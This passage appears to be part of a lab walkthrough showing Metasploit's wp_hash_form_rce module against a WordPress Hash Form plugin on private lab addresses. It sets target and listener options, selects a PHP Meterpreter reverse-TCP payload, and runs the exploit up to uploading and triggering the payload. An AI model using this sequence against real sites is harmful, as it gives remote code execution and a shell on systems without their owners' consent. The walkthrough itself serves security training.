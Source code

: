 ```bash
msf6 exploit(multi/http/wp_hash_form_rce) > set rhosts 10.129.12.10
rhosts => 10.129.12.10

msf6 exploit(multi/http/wp_hash_form_rce) > set rport 443
rport => 443

msf6 exploit(multi/http/wp_hash_form_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true

msf6 exploit(multi/http/wp_hash_form_rce) > set lhost 10.10.16.14
lhost => 10.10.16.14

```

Once everything is set, we can double-check the options and make sure that everything is set properly:

```shell
msf6 exploit(multi/http/wp_hash_form_rce) > options

Module options (exploit/multi/http/wp_hash_form_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.12.10     yes       The target host(s), see <https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html>
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.14      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory

```

When all options are set correctly, we can use the command `exploit` to execute the exploit against the target:

```shell
msf6 exploit(multi/http/wp_hash_form_rce) > exploit

[*] Started reverse TCP handler on 10.10.16.14:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Detected Hash Form plugin version: 1.1.0
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce from the target...
[+] Nonce retrieved: 46e27af2d1
[*] Uploading PHP payload using the retrieved nonce...
[+] PHP payload uploaded successfully to <https://10.129.12.10/wp-content/uploads/hashform/temp/pdylenna.php>
[*] Triggering the payload...
```